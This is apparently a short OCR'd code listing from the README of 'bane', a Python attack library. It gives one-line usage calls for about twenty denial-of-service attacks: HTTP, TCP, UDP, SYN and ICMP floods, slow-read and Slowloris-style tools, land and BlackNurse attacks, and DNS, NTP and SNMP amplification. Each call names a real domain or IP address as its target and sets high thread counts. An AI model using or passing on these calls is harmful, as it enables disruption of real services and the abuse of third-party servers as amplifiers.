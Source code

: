 <br>bane.lulzer('www.google.com',p=80,threads=1000) #http flood with proxies

<br>bane.tcpflood('www.google.com',threads=1000) #tcp flood

<br>bane.udp('50.63.33.34',p=80) #udp flood

<br>bane.doser('https://www.google.com',threads=500)

<br>bane.proxdoser('https://www.google.com',threads=500)

<br>bane.torshammer('www.google.com',p=80,threads=1000)

<br>bane.slowread('www.google.com',p=80,threads=1000)

<br>bane.apachekiller('www.google.com',p=80,threads=500)

<br>bane.goldeneye('www.google.com',p=80,threads=1000)

<br>bane.medusa('www.google.com',p=80,threads=1000)

<br>bane.icmp('50.63.33.34',p=80,threads=100)

<br>bane.synflood('50.63.33.34',p=80,threads=100)

<br>bane.icmpstorm('50.63.33.34',p=80,threads=100)

<br>bane.land('50.63.33.34',p=80,threads=100)

<br>bane.udpstorm('50.63.33.34',p=80,threads=100)

<br>bane.blacknurse('50.63.33.34',p=80,threads=100)

<br>bane.dnsamplif('50.63.33.34',p=80,dnslist=[your_dns_servers_list_here],threads=100)

<br>bane.ntpamplif('50.63.33.34',p=80,dnslist=[your_ntp_servers_list_here],threads=100)

<br>bane.snmpamplif('50.63.33.34',p=80,dnslist=[your_snmp_servers_list_here],threads=100)



